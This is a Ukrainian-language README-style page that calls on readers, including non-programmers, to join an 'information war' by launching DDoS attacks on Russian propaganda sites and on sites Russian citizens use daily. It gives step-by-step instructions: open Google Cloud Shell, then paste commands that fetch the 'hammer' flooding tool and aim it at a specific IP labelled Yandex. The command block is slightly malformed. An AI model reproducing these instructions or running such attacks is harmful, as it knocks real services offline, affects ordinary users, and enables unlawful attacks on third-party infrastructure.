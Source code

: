 
# Справжня інформаційна війна

### Зараз йде війна не тільки реальному але й *інформаційному просторі*. В містах та селах за нас борется ЗСУ та тероборона, а в інтернеті можемо боротися і всі ми, навіть якщо ви далекі від теми програмування.

А все завдяки **DDos атакам** на пропагандистські російські сайти, а також на сайти якими користуються її громадяни в повсякденному житті.

>DDoS attack (*розподілена атака на відмову в обслуговуванні*) - напад на комп'ютерну систему з наміром зробити комп'ютерні ресурси недоступними користувачам, для яких комп'ютерна система була призначена)

Завдяки ним ми можемо *лишити їх можливості черпати фейкову інформацію та поширювати її*. Все що від вас потрібно, перейти [за цим посиланням](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal) (якщо ви хочете провести атаку *з телефону* , то потрібно завантажити google shell), при необхідності створити гугл акаунт,  і ввести ці команди в *строку термінала* . 
***
### Requierments
- Web Browser
- Google Account
- Keyboard
***
### DDOS >> YANDEX
```
https://github.com/cyweb/hammer && cd hammer \
python3 hammer.py -s 5.255.255.50
```

***
  
Цим саме ви запустите DDos атаку з вашого пристрою. Ось так, сидячи вдома, ви можете допомогти своїй країні в інформаційному просторі. **Слава Україні!**
> детальніше ознайомитися з даною ситуацією Ви можете за цим посиланням:
> **https://github.com/curated-intel/Ukraine-Cyber-Operations**
2
